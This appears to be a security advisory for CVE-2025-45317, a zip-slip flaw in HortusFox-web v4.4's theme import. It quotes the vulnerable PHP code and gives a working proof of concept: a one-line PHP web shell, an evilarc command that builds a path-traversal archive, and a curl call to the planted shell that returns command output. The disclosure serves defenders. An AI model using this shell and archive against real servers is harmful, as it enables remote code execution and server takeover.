




### CVE-2025-45317 - Authenticated Zip-Slip in HortusFox-web v4.4

### 1. Executive Summary

A **ZIP-slip** vulnerability in the theme import functionality of hortusfox-web v4.4 allows an authenticated administrator to drop arbitrary files—such as a PHP web shell—into the publicly addressable `/themes` directory. Once extracted, the attacker can remotely execute code by invoking the uploaded shell, leading to full RCE on the server.

### 2. Vulnerability Details
1. in [ThemeModule.php](https://github.com/danielbrendel/hortusfox-web/blob/8ab851101a62d8eb311235c118eeeb32a9b36978/app/modules/ThemeModule.php) the [startImport()](https://github.com/danielbrendel/hortusfox-web/blob/8ab851101a62d8eb311235c118eeeb32a9b36978/app/modules/ThemeModule.php#L165) method handles theme uploads and extraction:
```php
    public static function startImport()
    {
        try {
            if ((!isset($_FILES['theme'])) || ($_FILES['theme']['error'] !== UPLOAD_ERR_OK) || (strpos($_FILES['theme']['type'], 'zip') === false)) {
                throw new \Exception('Failed to upload file or invalid file uploaded');
            }

            $result = [];

            $import_file = 'theme_import_' . date('Y-m-d_H-i-s');

            move_uploaded_file($_FILES['theme']['tmp_name'], public_path() . '/themes/' . $import_file . '.zip');

            $zip = new ZipArchive();

            if ($zip->open(public_path() . '/themes/' . $import_file . '.zip')) {
                $zip->extractTo(public_path() . '/themes/' . $import_file);
                $zip->close();

                $folders = scandir(public_path() . '/themes/' . $import_file);
                foreach ($folders as $folder) {
                    if (substr($folder, 0, 1) !== '.') {
                        if (!is_dir(public_path() . '/themes/' . $folder)) {
                            rename(public_path() . '/themes/' . $import_file . '/' . $folder, public_path() . '/themes/' . $folder);

                            static::load(public_path() . '/themes/' . $folder);
                            if (!static::ready()) {
                                throw new \Exception('Failed to load theme: ' . $folder);
                            }

                            LogModel::addLog(auth()->get('id'), 'themes', 'import_theme', self::$theme_data->name);

                            $result[] = $folder;
                        }
                    }
                }

                UtilsModule::clearFolder(public_path() . '/themes/' . $import_file);
            }

            unlink(public_path() . '/themes/' . $import_file . '.zip');

            return $result;
        } catch (\Exception $e) {
            throw $e;
        }
    }
```

2. [extractTo()](https://github.com/danielbrendel/hortusfox-web/blob/8ab851101a62d8eb311235c118eeeb32a9b36978/app/modules/ThemeModule.php#L181) does not validate archive entries, so a ZIP containing `../../../payload.php` will write `public/themes/../payload.php` → `theme/payload.php`.

3. The extraction target is under `public_path() . '/themes'`, which is served by the web server; attackers can then request any uploaded `.php` file.

### 3. Proof-of-Concept
1. **Create a PHP web shell* (`payload.php`):
```php
<?php system($_GET['cmd']); ?>
```

2. **Craft a malicious ZIP** with entries such as `../../payload.php` pointing outside `.../themes/theme_import_xxx/`.
```bash
python2 evilarc.py -f evil.zip -d 3 -o unix payload.php
```
	https://github.com/ptoomey3/evilarc.git
3. **Upload** the ZIP as an administrator via the theme-import UI.

4. **Trigger Extraction** by submitting the form.
	an error message "Theme definition file not found: /var/www/html/public/themes/payload.php/theme.json" will pop up after uploading we can ignore this

5. **Invoke RCE**
```
curl http://localhost:8080/themes/payload.php?cmd=id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4. Impact

- **Full Server Compromise:** Arbitrary command execution as the web-server user.
    
- **Persistence & Lateral Movement:** Upload additional tools or pivot to internal services.
    
- **Data Exfiltration or Tampering:** Read/write sensitive configuration, database credentials, source code, etc.

- **The Other CVEs can steal an admin session via XSS and enable any user to access this panel**

### Screenshots
Theme endpoint


Select `evil.zip` to upload


Upload `evil.zip` the warning can be ignored here as it does not affect the file upload


Visit `/themes/payload.php?cmd=id` to get remote execution

